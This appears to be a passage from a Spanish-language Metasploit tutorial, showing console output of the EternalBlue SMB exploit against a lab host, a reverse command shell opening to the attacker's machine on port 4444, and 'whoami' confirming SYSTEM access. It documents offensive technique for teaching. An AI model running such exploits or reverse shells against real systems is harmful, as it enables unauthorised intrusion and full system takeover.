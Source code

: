 ```less
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

```bash
meterpreter> shell
```

### Interacción con el Objetivo

```bash
C:\Windows\system32> whoami
```

```bash
whoami
nt authority\system
```

Hemos obtenido un shell en la máquina objetivo y podemos interactuar con él. Este ha sido un ejemplo rápido y directo de cómo `msfconsole` puede ayudar rápidamente, pero sirve como un excelente ejemplo de cómo funciona el marco. Solo se necesitó un módulo sin selección de payload, codificación o pivoteo entre sesiones o trabajos.
